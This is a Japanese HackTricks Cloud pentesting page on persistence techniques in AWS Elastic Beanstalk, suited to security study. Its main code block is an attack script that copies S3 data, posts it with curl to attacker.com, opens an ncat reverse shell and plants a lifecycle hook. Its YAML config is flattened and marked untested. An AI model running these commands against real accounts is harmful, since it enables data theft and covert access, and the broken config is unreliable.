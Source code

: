# AWS - Elastic Beanstalk 永続化

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* もし **HackTricks であなたの会社を宣伝したい** または **PEASS の最新バージョンにアクセスしたい** または **HackTricks を PDF でダウンロードしたい** 場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) をチェックしてください！
* [**公式の PEASS & HackTricks スワッグ**](https://peass.creator-spring.com) を手に入れましょう
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) を見つけてください。これは私たちの独占的な [**NFT**](https://opensea.io/collection/the-peass-family) のコレクションです
* 💬 [**Discord グループ**](https://discord.gg/hRep4RUj7f) または [**telegram グループ**](https://t.me/peass) に参加するか、私を **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) で **フォロー** してください
* **ハッキングのトリックを共有するために、PR を** [**HackTricks**](https://github.com/carlospolop/hacktricks) **と** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **の GitHub リポジトリに提出してください**

</details>

## Elastic Beanstalk

詳細については、以下を参照してください：

{% content-ref url="../../aws-pentesting/aws-services/aws-elastic-beanstalk-enum.md" %}
[aws-elastic-beanstalk-enum.md](../../aws-pentesting/aws-services/aws-elastic-beanstalk-enum.md)
{% endcontent-ref %}

### インスタンス内の永続化

AWS アカウント内で永続性を維持するために、いくつかの **永続化メカニズムをインスタンス内に導入** することができます（cron ジョブ、ssh キー...）。これにより、攻撃者はそれにアクセスして IAM ロールの **メタデータサービスから資格情報を盗む** ことができます。

### バージョン内のバックドア

攻撃者は、S3 リポジトリ内のコードにバックドアを仕込むことで、常にバックドアと予想されるコードを実行させることができます。

### 新しいバックドア付きバージョン

実際のバージョンのコードを変更する代わりに、攻撃者はアプリケーションの新しいバックドア付きバージョンを展開することができます。

### カスタムリソースライフサイクルフックの乱用

{% hint style="info" %}
TODO: テスト
{% endhint %}

Elastic Beanstalk は、インスタンスのプロビジョニングと終了時にカスタムスクリプトを実行するためのライフサイクルフックを提供しています。攻撃者は、**ライフサイクルフックを設定して、定期的にデータを外部に送信したり、AWS アカウントへのアクセスを維持したりするスクリプトを実行する** ことができます。
```bash
bashCopy code# Attacker creates a script that exfiltrates data and maintains access
echo '#!/bin/bash
aws s3 cp s3://sensitive-data-bucket/data.csv /tmp/data.csv
gzip /tmp/data.csv
curl -X POST --data-binary "@/tmp/data.csv.gz" https://attacker.com/exfil
ncat -e /bin/bash --ssl attacker-ip 12345' > stealthy_lifecycle_hook.sh

# Attacker uploads the script to an S3 bucket
aws s3 cp stealthy_lifecycle_hook.sh s3://attacker-bucket/stealthy_lifecycle_hook.sh

# Attacker modifies the Elastic Beanstalk environment configuration to include the custom lifecycle hook
echo 'Resources:
AWSEBAutoScalingGroup:
Metadata:
AWS::ElasticBeanstalk::Ext:
TriggerConfiguration:
triggers:
- name: stealthy-lifecycle-hook
events:
- "autoscaling:EC2_INSTANCE_LAUNCH"
- "autoscaling:EC2_INSTANCE_TERMINATE"
target:
ref: "AWS::ElasticBeanstalk::Environment"
arn:
Fn::GetAtt:
- "AWS::ElasticBeanstalk::Environment"
- "Arn"
stealthyLifecycleHook:
Type: AWS::AutoScaling::LifecycleHook
Properties:
AutoScalingGroupName:
Ref: AWSEBAutoScalingGroup
LifecycleTransition: autoscaling:EC2_INSTANCE_LAUNCHING
NotificationTargetARN:
Ref: stealthy-lifecycle-hook
RoleARN:
Fn::GetAtt:
- AWSEBAutoScalingGroup
- Arn' > stealthy_lifecycle_hook.yaml

# Attacker applies the new environment configuration
aws elasticbeanstalk update-environment --environment-name my-env --option-settings Namespace="aws:elasticbeanstalk:customoption",OptionName="CustomConfigurationTemplate",Value="stealthy_lifecycle_hook.yaml"
```
<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* もし **HackTricks であなたの会社を宣伝したい** または **PEASS の最新バージョンにアクセスしたい** または **HackTricks を PDF でダウンロードしたい** 場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) をチェックしてください！
* [**公式の PEASS & HackTricks のグッズ**](https://peass.creator-spring.com) を手に入れましょう
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) を見つけて、独占的な [**NFTs**](https://opensea.io/collection/the-peass-family) のコレクションを楽しみましょう
* 💬 [**Discord グループ**](https://discord.gg/hRep4RUj7f) または [**telegram グループ**](https://t.me/peass) に参加し、または **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) を **フォロー** しましょう。
* **あなたのハッキングテクニックを共有するために、PR を** [**HackTricks**](https://github.com/carlospolop/hacktricks) **と** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **の GitHub リポジトリに提出してください。**

</details>
